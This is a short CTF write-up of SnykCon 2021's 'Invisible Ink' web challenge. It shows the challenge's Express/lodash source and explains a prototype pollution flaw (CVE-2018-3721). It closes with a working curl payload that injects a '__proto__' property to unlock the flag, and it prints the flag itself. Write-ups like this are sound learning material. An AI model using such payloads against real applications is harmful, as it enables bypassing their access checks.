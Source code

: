```yaml
---
title: SnykCon CTF 2021
date: 2021-12-30 20:00:00 
layout: post
categories: CTF
tags: [CTF]
toc: true
---
```


# SnykCon-CTF-2021
* Category: Web 
* Name: Invisible Ink
* Level: None
* Description: None
## Solution
* Overview the challenge provided us a `Request` and `Response` and `POST` method
![](https://i.imgur.com/FLUP6Kr.png)
*  I used curl command with `POST` method and seems nothing =))))
![](https://i.imgur.com/tYrlExb.png)

* Now i read `index.js` file 

```js
'use strict';
const fs = require('fs');
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
const _ = require('lodash');
const options = {};
const flag = fs.readFileSync('./flag', 'utf-8').trim();
const docHtml = fs.readFileSync('./index.html', 'utf-8');

app.use(bodyParser.json());

app.get('/', (req, res) => {
    res.send(docHtml);
});

app.post('/echo', (reg, res) => {
    const out = {
        userID: req.headers['x-forwarded-for'] || req.connection.remoteAddress, time:
            Date.now()
    };

    _.merge(out, req.body);
    if(options.flag){
        out.flag = flag;
    }else {
        out.flag = 'disabled';
    }
    res.json(out);
    process.exit(0);
});
app.listen(8000);
```
* I found two line of code `const _ = require('lodash');`,`_.merge(out, req.body);`,`lodash` is a lib of javascript you can read document about it at `https://lodash.com/` :))
* Then i found some exploit ways involved lodash and i found `CVE-2018-3721`. I realized the challenge have a problem about `Prototype Pollution`
* <https://nvd.nist.gov/vuln/detail/CVE-2018-3721>
* I used `curl` command again and finally, i found a flag ^_^ 

```bash
curl -H "Content-Type: application/json" -X POST http://35.211.53.53:8000/echo -d  '{"message": "ping", "__proto__": {"flag":true}}'
```
![](https://i.imgur.com/0twksMN.png)
* FLAG `SNYK{6a6a6fff87f3cfdca056a077804838d4e87f25f6a11e09627062c06f142b10dd}`
